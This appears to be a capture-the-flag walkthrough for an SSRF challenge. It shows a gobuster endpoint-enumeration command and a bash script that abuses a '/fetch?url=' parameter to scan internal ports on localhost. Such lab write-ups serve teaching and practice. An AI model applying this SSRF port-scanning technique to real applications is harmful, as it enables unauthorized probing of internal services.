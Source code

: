 # SSRF CTF Walkthrough

## Challenge Description
**This website is currently under construction but can reach other internal webservices on the same host, are you able to find the flag?**  


## Walkthrough  


Reach the website landing page:  
![landing-page](./images/landing_page.png)  

Launch a fuzzer/bruteforcer tool like [*gobuster*](https://github.com/OJ/gobuster) to identify website's endpoints:  
```sh
gobuster dir -k -t 2 -u http://localhost  -w /usr/share/wordlists/dirb/big.txt -b 404,401
```  

Gobuster identifies the "fetch" endpoint:  

![fetch](./images/fetch.png)  

Go to that url and inspect the error message:  
![no_url_error](./images/no_url_error.png)  

Try to submit the url parameter:  
![invalid_url_error](./images/invalid_url_error.png)  


Submit an url with the correct schema:  
![correct_url](./images/correct_url.png)  

You know from the challenge description that the website can reach other webservices on the same host, try a random port:  
![no_connection](./images/no_connection.png)  

Unfortunately no luck, you need to create an automation to scann all the ports, for example the following script:  
```sh
#!/bin/bash

# Base URL for the public-facing service
base_url="http://localhost/fetch?url="

# Targeting localhost within the container
internal_host="http://localhost"

# Range of ports to brute force (you can adjust this range)
start_port=1000
end_port=30000

# Loop through the port range and make a request to each one
for port in $(seq $start_port $end_port); do
    target_url="${internal_host}:${port}"
    full_url="${base_url}${target_url}"
    
    # Make a request to the /fetch endpoint and store the result
    response=$(curl -s "$full_url")

    # Check if the response contains content and does not have error messages
    if [ -n "$response" ] && [ "$(echo "$response" | grep -c '"status":"success"')" -eq 1 ]; then
        echo "Port $port responded: $response"
    fi
done
```  

With the previous script you get the flag!  
![flag](./images/flag.png)  







